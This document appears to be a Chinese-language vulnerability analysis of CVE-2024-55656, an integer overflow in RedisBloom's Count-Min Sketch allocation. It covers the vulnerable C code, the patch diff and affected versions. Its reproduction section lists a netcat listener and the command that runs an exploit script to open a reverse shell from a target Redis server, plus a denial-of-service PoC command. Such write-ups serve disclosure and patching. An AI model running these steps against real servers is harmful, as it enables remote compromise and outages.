




# CVE-2024-55656 CWE-190 Redis 整数溢出

## 漏洞背景

- **Redis**：一个key-value 存储系统，是跨平台的非关系型数据库。开源的内存数据库，提供了一个高性能的键值（key-value）存储系统，常用于缓存、消息队列、会话存储等应用场景。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。
- **RedisBloom：**Redis 的扩展模块，以原生命令方式提供布隆过滤器、Count-Min Sketch、Top-K 等概率数据结构，在恒定内存和毫秒级延迟内完成海量数据的存在性判断、频率统计与热点排行。
- **Count-Min Sketch ：**一种概率型数据结构，用于统计事件频率（近似计数）。其用极小的空间（哈希数组 + 计数器）近似记录数据流中元素的频率；它支持高速更新与查询，并在保证不会漏报低频为高频的同时，允许可配置的过高估计误差，因此适合大数据、网络测量、缓存热点探测等对内存敏感且容忍微小误差的场景。

```txt
CWE-190: Integer Overflow or Wraparound

The product performs a calculation that can produce an integer overflow or wraparound when the logic assumes that the resulting value will always be larger than the original value. This occurs when an integer value is incremented to a value that is too large to store in the associated representation. When this occurs, the value may become a very small or negative number.
```

## 漏洞原理

在 Redis 的组件 RedisBloom 的 `CMS.INITBYDIM` 中，用户可控的 `width` 与 `depth` 在 `NewCMSketch()` 里相乘且未做溢出检测，`width * depth` 在超出 `size_t` 时会环绕导致分配的内存比实际需要少，从而在后续对 `cms->array` 的读写中产生堆外读写（信息泄露、OOB 写入），在认证客户端可触发并可能进而导致拒绝服务或在特定条件下演化为远程代码执行。

## 漏洞定位

分析 RedisBloom v2.6.12 源码：

在 src/cms.c 文件，第 20 行的 NewCMSketch 函数在 RedisBloom 模块中用于创建一个 Count-Min Sketch (CMS) 数据结构。

在第 29 行，`width * depth` 是一个 无符号整数（size_t） 的乘法，但是没有做任何溢出检查。当` width * depth`超过最大整数范围（SIZE_MAX）时，实际值会变成 0（或很小的数），导致分配的内存远小于真实需要的大小。

```c
CMSketch *NewCMSketch(size_t width, size_t depth) {
    assert(width > 0);
    assert(depth > 0);

    CMSketch *cms = CMS_CALLOC(1, sizeof(CMSketch));

    cms->width = width;
    cms->depth = depth;
    cms->counter = 0;
    cms->array = CMS_CALLOC(width * depth, sizeof(uint32_t));

    return cms;
}
```

## 漏洞修复

在 `NewCMSketch` 开头加入了对可能发生整数溢出的检查，避免 `width * depth` 或 `elems * sizeof(uint32_t)` 溢出，从而避免下游的 `calloc` 分配不足。同时将数组分配改为 `CMS_TRYCALLOC(...)` 并在失败时释放 `cms` 并返回 `NULL`，避免在分配失败时泄漏 `cms`。

```cpp
diff --git a/src/cms.c b/src/cms.c
index ab3cbf0e1..fdbbd36f8 100644
--- a/src/cms.c
+++ b/src/cms.c
@@ -21,12 +21,20 @@ CMSketch *NewCMSketch(size_t width, size_t depth) {
     assert(width > 0);
     assert(depth > 0);
 
+    if (width > SIZE_MAX / depth || width * depth > SIZE_MAX / sizeof(uint32_t)) {
+        return NULL;
+    }
+
     CMSketch *cms = CMS_CALLOC(1, sizeof(CMSketch));
 
     cms->width = width;
     cms->depth = depth;
     cms->counter = 0;
-    cms->array = CMS_CALLOC(width * depth, sizeof(uint32_t));
+    cms->array = CMS_TRYCALLOC(width * depth, sizeof(uint32_t));
+    if (!cms->array) {
+        CMS_FREE(cms);
+        return NULL;
+    }
 
     return cms;
 }
```

## 影响范围

Reids-RedisBloom ：

-  2.8.0 to 2.8.4
-  2.6.0 to 2.6.15
-  2.4.0 to 2.4.12

## 环境搭建

启动 Docker 环境，redis-stack 版本为 7.2.0-v10，该版本是安装了 RedisBloom v2.6.12 的 Redis 服务器

```txt
CNA:GitHub,Inc.   Base Score:8.8 HIGH   Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
```



## 漏洞复现

### RCE

1. 开启监听 4444 端口

   ```bash
   nc -lvnp 4444
   ```

2. 进入 EXP 文件夹，运行 CVE-2024-55656-EXP.py 文件，输入目标机 Redis 的 IP 和端口，以及反弹 shell 的攻击机 IP 和端口。运行后可以看到成功反弹了 shell。

   ```bash
   python CVE-2024-55656-EXP.py --host 127.0.0.1 --port 6379 --lhost 192.168.233.153 --lport 4444
   ```

   

### DoS

1. 进入 PoC 文件夹，运行 CVE-2024-55656-PoC.py 代码，输入目标机 Redis 的 IP 和端口，可以看到 Redis 断开了连接。

   ```bash
   python CVE-2024-55656-PoC.py --host 127.0.0.1 --port 6379
   ```

   

2. 查看容器日志，可以看到 Redis 发生了段错误（signal: 11），导致崩溃。

   ```bash
   docker logs redis-stack-7.2.0-v10
   ```

   

## 参考链接

[NVD - CVE-2024-55656](https://nvd.nist.gov/vuln/detail/CVE-2024-55656)

[ZDI-CAN-24143: Redis Stack RedisBloom Integer Overflow Remote Code Execution Vulnerability · Advisory · RedisBloom/RedisBloom](https://github.com/RedisBloom/RedisBloom/security/advisories/GHSA-x5rx-rmq3-ff3h)

[rick2600/redis-stack-CVE-2024-55656](https://github.com/rick2600/redis-stack-CVE-2024-55656)

[CP potential crashes and mem leak (#846) · RedisBloom/RedisBloom@27c82ab](https://github.com/RedisBloom/RedisBloom/commit/27c82ab0690c4c98ee356125f41ad5d78f8a1bb1#diff-6caa899bca1b2bf61f93552a8fde885f19c789f5bfd13938bb7e98510e0783a9)
